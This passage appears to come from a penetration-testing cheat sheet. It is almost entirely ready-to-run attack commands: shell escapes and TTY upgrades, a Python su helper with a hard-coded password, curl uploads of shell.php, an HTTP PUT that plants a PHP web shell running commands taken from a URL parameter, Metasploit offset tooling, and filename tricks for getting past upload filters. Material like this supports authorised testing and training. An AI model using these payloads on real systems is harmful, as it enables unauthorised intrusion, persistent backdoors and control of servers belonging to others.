 ```bash
nice /bin/bash
```

### Interactive TTY Shells <a id="interactive-tty-shells"></a>

```bash
/usr/bin/expect sh
```

```python
python -c ‘import pty; pty.spawn(“/bin/sh”)’

# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```

### Uploading/POSTing Files Through WWW Upload Forms <a id="uploading-posting-files-through-www-upload-forms"></a>

```bash
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"​

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

### PUTing File on the Webhost via PUT verb <a id="puting-file-on-the-webhost-via-put-verb"></a>

```bash
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

### Generating Payload Pattern & Calculating Offset <a id="generating-payload-pattern-and-calculating-offset"></a>

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

### Bypassing File Upload Restrictions <a id="bypassing-file-upload-restrictions"></a>

* file.php -&gt; file.jpg
* file.php -&gt; file.php.jpg
* file.asp -&gt; file.asp;.jpg
* file.gif \(contains php code, but starts with string GIF/GIF98\)
* 00%
* file.jpg with php backdoor in exif \(see below\)
* .jpg -&gt; proxy intercept -&gt; rename to .php
